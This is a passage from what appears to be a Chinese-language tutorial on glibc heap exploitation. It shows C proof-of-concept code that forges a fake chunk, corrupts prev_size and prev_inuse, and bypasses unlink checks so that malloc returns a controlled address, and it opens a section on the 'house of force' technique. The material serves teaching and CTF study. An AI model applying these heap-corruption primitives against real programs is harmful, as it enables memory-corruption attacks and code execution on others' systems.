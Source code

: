         long *a = malloc(0x100); // 申请一个0x110的small chunk，如此以来它会紧邻top chunk
        long *real_a = a - 2;    // real_a是a的起始地址
        printf("the addr of real_a is %p.\n", real_a);
        printf("so the diff from real_a to fake_chunk is %p.\n", (long)real_a - (long)&fake_chunk[0]);

        // 攻击开始
        real_a[0] = (long)real_a - (long)&fake_chunk[0];         // 修改a的prev_size大小
        real_a[1] = 0x110;                                       // 修改a的prev_inuse为0
        fake_chunk[1] = (long)real_a - (long)&fake_chunk[0] + 1; // 修改fake_chunk的size
        // 在释放的时候，后向合并时会将fake_chunk进行unlink
        // 需要修改fake_chunk的fd bk fd_nextsize bk_nextsize指针来绕过unlink检查
        // unlink有安全检查：P->fd->bk == P, P->bk->fd == P，同时fd_nextsize也是如此
        // 将fake_chunk的指针统统指向本身，绕过一切
        fake_chunk[2] = &fake_chunk[0];
        fake_chunk[3] = &fake_chunk[0];
        fake_chunk[4] = &fake_chunk[0];
        fake_chunk[5] = &fake_chunk[0];

        free(a);                 // 释放chunk a，如此一来先合并fake_chunk，再与top chunk合并
        long *b = malloc(0x100); // 再申请一个chunk
        printf("the addr of new malloc is %p.\n", b - 2);

        // 下面是在堆上伪造的。

        // long *a = malloc(0xf0); // 申请一个大小为0x100的chunk，并且最终我们希望它成为top chunk
        // printf("the addr of chunk a is %p.\n", a - 2);

        // // 接下来，我们申请3个大小为0x100的chunk
        // malloc(0xf0);
        // malloc(0xf0);
        // malloc(0xf0);

        // // 我们再申请最后一个大小为0x100的chunk，那么这个chunk b将会紧邻top chunk
        // long *b = malloc(0xf0);

        // // 攻击
        // b[-2] += 0x400; // 将chunk b的prev_size增大0x400
        // b[-1] = 0x100;  // 修改chunk b 的prev_inuse为0
        // a[-1] = 0x401;  // 修改chunk a的size为0x400
        // a[0] = a - 2;
        // a[1] = a - 2;
        // a[2] = a - 2;
        // a[3] = a - 2;

        // free(b); // 释放 chunk b，这样一来chunk a成为top chunk
        // long *c = malloc(0x100);
        // printf("the addr of chunk c is %p.\n", c - 2);
        return 0;
    }

## house of force

一句话描述该漏洞，在`glibc 2.23`下，通过控制`top chunk`的`size`域为一个特别大的值，导致可以通过`malloc`特别大的值或者负数来将`top chunk`的指针指向任意位置。
